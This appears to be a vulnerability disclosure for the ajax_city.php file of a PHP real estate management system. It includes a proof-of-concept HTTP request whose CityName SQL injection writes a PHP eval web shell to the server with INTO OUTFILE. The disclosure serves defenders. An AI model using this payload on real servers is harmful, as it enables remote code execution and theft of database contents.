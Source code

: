 # Real Estate Property Management System has upload_file and sql injection vulnerability in ajax_city.php

## supplier 
https://code-projects.org/real-estate-property-management-system-php-source-code/
## Vulnerability file
ajax_city.php

## describe

An unrestricted SQL injection and upload_file attack exists in an Real Estate Property Management System. The parameters that can be controlled are as follows: CityName. This function executes the id parameter into the SQL statement without any restrictions.Can upload shell in the server. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

**Code analy,sis**    

When the value of   CityName parameter is obtained in function , it will be concatenated into SQL statements and executed, which has a SQL injection vulnerability. And upload the file.

![Image](https://github.com/user-attachments/assets/40c942bd-6b9a-4498-93fe-533c63e4859a)

## POC

```
POST /ajax_city.php HTTP/1.1
Host: property
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 114
Origin: http://property
Connection: close
Referer: http://property/ajax_city.php?
Upgrade-Insecure-Requests: 1
Priority: u=0, i

CityName=1'+UNION+SELECT+1,2,'<?php+eval($_POST[cmd]);?>'+into+outfile+'D:/phpstudy_pro/WWW/Property/shell.php'--+
```

**Result**

![Image](https://github.com/user-attachments/assets/5ae3093e-8c91-4ca1-90a1-456065b266ed)

![Image](https://github.com/user-attachments/assets/20c52585-4e86-4d76-98ce-152cc7b89798)

![image-20241226013405312](https://github.com/user-attachments/assets/fd4a6d5f-7c7d-418d-8db1-2bbd2d5bc9a0)